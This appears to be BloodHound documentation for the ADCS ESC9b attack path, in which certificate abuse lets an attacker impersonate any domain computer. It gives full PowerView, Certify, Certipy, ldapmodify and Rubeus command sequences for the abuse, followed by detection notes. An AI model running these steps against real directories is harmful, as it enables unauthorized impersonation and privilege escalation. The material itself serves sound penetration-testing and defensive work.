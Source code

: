 ---
title: ADCSESC9b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `dNSHostName`  of the enrollee included in the Subject Alternative Name (SAN), and 3) not have the security extension enabled."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



 The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. As the certificate template does not have the security extension, the issued certificate will NOT include the SID of the victim computer. DCs with strong certificate binding configuration will require a SID to be present in a certificate used for Kerberos authentication, but the affected DCs with weak certificate binding configuration will not. The affected DCs will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify principals with a matching `sAMAccountName`. At last, the DC issues a Kerberos TGT as the targeted computer to the attacker, which means the attacker now has a session as the targeted computer.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='target.corp.local'}
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certify as the victim computer to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certify.exe request /ca:SERVERCA-NAME /template:TEMPLATE /machine
```
Save the certificate as `cert.pem` and the private key as `cert.key`.

Step 6: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 7 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous values using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='victim.corp.local'}
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from an affected DC, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 6:

```bash
Rubeus.exe asktgt /certificate:cert.pfx /user:TARGET$ /domain:DOMAIN /dc:DOMAIN_CONTROLLER
```

### Linux

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns TARGET.CORP.LOCAL
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```
Step 6 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 7: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Request a ticket granting ticket (TGT) from an affected DC, specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP
```

**Opsec Considerations**

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certipy](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [CertUtil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
